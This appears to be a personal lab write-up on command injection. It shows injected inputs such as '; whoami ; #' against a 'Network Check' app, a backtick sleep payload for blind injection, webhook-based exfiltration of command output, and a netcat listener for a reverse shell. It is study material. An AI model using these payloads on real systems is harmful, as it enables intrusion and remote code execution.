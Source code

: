 ## Command Injection

Very serious finding.  In programing, using functions like eval() and system() can lead to some not so great things.  Especially if a user can get to using them.  This can lead to compromising not only the application but the host as well.

What `eval()` does is it runs the code inside of it.  As a quick example, we have this.  The first `eval()` statement equaling 2.  And then setting a variable (`userInput`) equal to `7*7` and then you run that bit of code inside `eval(userInput)` and you get the output of 49, since 7 times 7 is 49.

![ScreenShot1.png](Images2/Screenshot1.png)

You can also check this via terminal and use it to test different things.

```
(kali@kali)-$ php -a
Interactive shell

php > $userInput = 'whoami';
php > system($userInput);
kali
php >
```

![ScreenShot2.png](Images2/Screenshot2.png)

Here we're doing the same thing but in PHP with an interactive shell (`php -a`).

You can also look at `https://book.hacktricks.wiki/en/pentesting-web/command-injection.html` for some testing bits.

### Basics

You're not likely to run into something like this coming lab on a public facing site but it's not impossible to see if if you get onto an internal device somehow.

This appears to be a "Network Check" application.  It gives you an address bar and even a handy example in the input box to help you understand what is being asked.  So we try it and get the following.

![ScreenShot3.png](Images2/Screenshot3.png)

Here we see the example in the text box, we see the command that is ran from the input we put in.  And we have the result of said command.

If we put something in like `http://localhost/ ; whoami` or `http://localhost/ ; whoami ;` we don't get anything back.  But, if we try `http://localhost/ ; whoami; #` and use the # sign to essentially end the statement...

![ScreenShot4.png](Images2/Screenshot4.png)

Here we see at the end that we do have the command `whoami` run there at the end.  I can even change it a bit more and clean up what I'm looking at by finishing out the meant to be `grep` command and THEN put my injected command.

`http://localhost | grep "HTTP/" ; whoami ; #`

![ScreenShot5.png](Images2/Screenshot5.png)

You can also put in just `; whoami ; #` and get just the `www-data` back.

![ScreenShot6.png](Images2/Screenshot6.png)

Now that we know that, we can do some code execution and get a reverse shell.

We can use the commands like `which php` and `which python` to see what is installed on the box, and use that on PayloadsAllTheThings to find a payload to get reverse shell.  Don't forget to start your listener `nc -nlvp 4444`

![ScreenShot7.png](Images2/Screenshot7.png)

### Blind Command Injection

Blind command injection is when you do not see the output directly on the screen.  You may see, for example, Website OK but you won't see the output that was in the last example where you had the whole line, `HTTP/2 200 OK` returned.

For this one, we can test with something simple to put in, like ```http://localhost?q=`sleep 10` ``` (please note that the tac -next to the number 1 on the keyboard- is used, not the single quote).  If you put this in though and the site hangs, it's a good bet you have blind injection.

You can then take a website and add ``` /?q=`whoami` ``` and you should get in the response with the command "whoami" attached to the end.

![ScreenShot8.png](Images2/Screenshot8.png)

![ScreenShot9.png](Images2/Screenshot9.png)

Here we have the same website.hook site.  In the web app we input the `whoami` portion with the tacs and we get back the user `www-data` in our response.  Again, be sure to use the `/?q=` at the end and put your command in tacs (``` ` ```).